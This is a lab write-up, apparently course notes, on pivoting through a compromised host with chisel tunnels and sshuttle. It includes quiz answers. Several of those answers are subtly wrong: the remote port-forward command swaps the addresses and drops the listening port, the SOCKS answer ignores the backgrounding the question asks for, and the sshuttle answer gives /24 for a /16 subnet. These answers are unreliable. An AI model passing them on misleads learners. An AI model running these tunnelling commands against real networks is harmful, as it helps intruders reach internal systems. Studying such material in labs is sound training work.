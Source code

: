 Target:

    ./chisel server -p LISTEN_PORT

Attacking:

    ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

**Answer the questions:**
Use port 4242 for the listener and do not background the process.
`./chisel server -p 4242 --reverse`
What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
`./chisel client 172.16.0.200:4242 r:socks`
How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
`./chisel client 172.16.0.100:3306 R:33060:172.16.0.200 &`
If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
`./chisel client 172.16.0.5:4444 8000:172.16.0.10:80`


## Task 15  Pivoting sshuttle

Simulates a VPN that allows for SSH connection to reate tunneled proxy that acts like a new interface. This can be all done without the use of proxychains.

The base command for connecting to a server with sshuttle is as follows:
`sshuttle -r username@address subnet`

Connecting to network example:

    sshuttle -r user@172.16.0.5 172.16.0.0/24
    or
    sshuttle -r username@address -N #automatically attempts to find the subnet


Connection with private key example:

    sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24

**Answer the Questions**
How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16

    sshuttle -r pwned@172.16.20.7 172.16.0.0/24 &

What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?

    --ssh-cmd "ssh -i priv_key"

You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error.
What switch (and argument) could you use to fix this error?
